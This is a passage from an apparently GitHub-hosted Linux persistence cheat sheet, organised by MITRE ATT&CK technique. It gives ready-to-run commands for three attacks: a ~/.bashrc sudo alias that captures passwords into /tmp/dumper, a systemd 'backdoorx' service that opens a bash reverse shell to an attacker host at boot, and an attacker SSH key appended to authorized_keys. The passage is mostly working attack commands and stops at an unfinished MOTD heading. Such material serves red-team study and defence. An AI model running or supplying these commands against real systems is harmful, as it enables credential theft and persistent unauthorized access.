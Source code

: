 Required: root or normal user privilege

	$ Command:
	
	victim@server$ echo "alias sudo='echo -n "[sudo] password for "\$USER": " && read -r password && echo ""\$password"" >/tmp/dumper && /usr/bin/sudo \$@'" >> ~/.bashrc

## Creating systemd backdoor 

[MITRE ID: T1543.002](https://attack.mitre.org/techniques/T1543/002/)

FFor Linux operating systems, Systemd is a system and service manager. It includes capabilities such as the parallel launch of system services at boot time, on-demand activation of daemons, and dependency-based service control logic, and is meant to be backwards compatible with SysV init scripts.

As for the PoC, we create `backdoorx` service in /etc/systemd/system/ directory. Whenever the system start and the network is ready, it will establish a reverse shell to adversary C2.

Required: root privilege

	$ Command:
	
	root@victim$ SYSTEMD_NAME='backdoorx'
	
	root@victim$ cat << EOF > /etc/systemd/system/$SYSTEMD_NAME.service
	[Unit]
	After=network-online.target
	[Service]
	Type=simple
	ExecStart=/bin/bash -c "bash -i >& /dev/tcp/$ATTACKERIP/6666 0>&1"
	[Install]
	WantedBy=multi-user.target'
	EOF
	
	root@victim$ systemctl daemon-reload
	root@victim$ systemctl start $SYSTEMD_NAME.service
	root@victim$ systemctl enable $SYSTEMD_NAME.service

## Creating SSH authorized_keys

[MITRE ID: T1098.004](https://attack.mitre.org/techniques/T1098/004/)

In SSH, the authorized keys file defines the SSH keys that can be used to login into the user account for whom the file is set up. It's a crucial configuration file since it sets up persistent access through SSH keys.

As for the PoC, we simulate the adversary SSH Public Key that commonly known as id_rsa.pub that is placed on the server we intend to log in to.

Required: root or normal user privilege

	$ Command:
	
	victim@server$ echo 'ssh-rsa AAAAB3Nza7Y-SNIP-6v6tgj6V5Dt root@C2box' >> ~/.ssh/authorized_keys
	attacker@C2$ ssh victim@server

## Creating SSH MOTD banner
